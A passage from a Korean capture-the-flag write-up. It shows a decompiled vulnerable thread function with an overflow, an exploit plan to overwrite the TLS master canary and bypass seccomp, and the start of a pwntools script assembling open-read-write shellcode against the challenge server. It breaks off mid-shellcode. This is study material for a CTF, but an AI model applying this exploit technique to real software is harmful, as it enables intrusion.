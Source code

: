 쓰레드로 `vuln`을 실행한다.

```C
int __fastcall vuln(void *a1)
{
  size_t nbytes; // [rsp+18h] [rbp-88h] BYREF
  char buf[120]; // [rsp+20h] [rbp-80h] BYREF
  unsigned __int64 v4; // [rsp+98h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  nbytes = 0LL;
  printf("[*] Buffer: %p\n", buf);
  printf("[*] What is the length of your shellcode: ");
  __isoc99_scanf("%d", &nbytes);
  getchar();
  printf("[*] Escape> ");
  disable();
  read(0, buf, nbytes);
  close(0);
  return close(1);
}
```

buf의 주소를 알려준다. 원하는 만큼 입력할 수 있어 `bof`가 발생한다. `disable`은 seccomp을 설정하는 함수이다. 그리고 stdin과 stdout을 닫는다.

## 익스플로잇 설계

우선 canary를 뚫어야 한다. 스레드 함수에서 선언된 변수는 일반적인 함수와 달리 TLS와 인접한 영역에 할당된다. 그러나 버퍼를 할당할 때 TLS 영역에 존재하는 마스터 카나리 값을 참조한다는 점은 동일하다. 따라서 마스터 카나리를 덮으면 된다.  
그리고 seccomp에 의해 system, execve 실행이 안 되므로 orw 쉘코딩으로 flag를 읽는다. 이 때 write는 stderr를 이용해야 출력을 볼 수 있다.

## dec.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.arch = 'amd64'
context.bits = 64

HOST = "c272d8dabe49243f7ba48e2187d11f4d.chal.ctf.ae"
#p = process('./blind')
p = remote(HOST, 443, ssl=True, sni=HOST)
l = ELF('./libc.so.6')

shellcode = asm(
    "run_sh:\n"
    "push 0x7478\n"
    "mov rax, 0x742E67616C662F2E \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = './flag.txt'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('./flag.txt', RD_ONLY, NULL)\n"

    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"

    "mov rdi, 2        # rdi = 2 ; fd = stderr\n"
```